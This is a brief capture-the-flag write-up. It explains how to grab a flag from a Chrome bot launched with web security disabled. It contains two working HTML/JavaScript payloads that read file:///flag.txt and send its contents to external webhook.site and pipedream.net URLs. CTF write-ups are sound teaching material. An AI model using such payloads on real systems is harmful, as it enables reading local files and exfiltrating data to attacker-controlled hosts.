

I heard you like flags, so I launched Chrome with a lot of flags so you can get your flag!
The flag is in /flag.txt, and the bot will visit the HTML file you uploaded!


We upload a js script that makes a request to a webhook with the flag. This is called xhr:

```html
<script>

    window.onload = function() {

x=new XMLHttpRequest;

x.onload=function(){fetch('https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae?i=' + btoa(this.responseText))};

x.open("GET","file:///flag.txt");x.send();

    }

</script>

```

We can request the local file: `file:///flag.txt` because it has the chrome Flag `--disable-web-security` disables CORS.

Another payload: 

```html
<script>fetch("file:///flag.txt").then((c) => c.text()).then((c) => window.location = ("https://enujhdkm7k82m.x.pipedream.net/?" + c)).finally(console.log("Nothing"))</script>
```

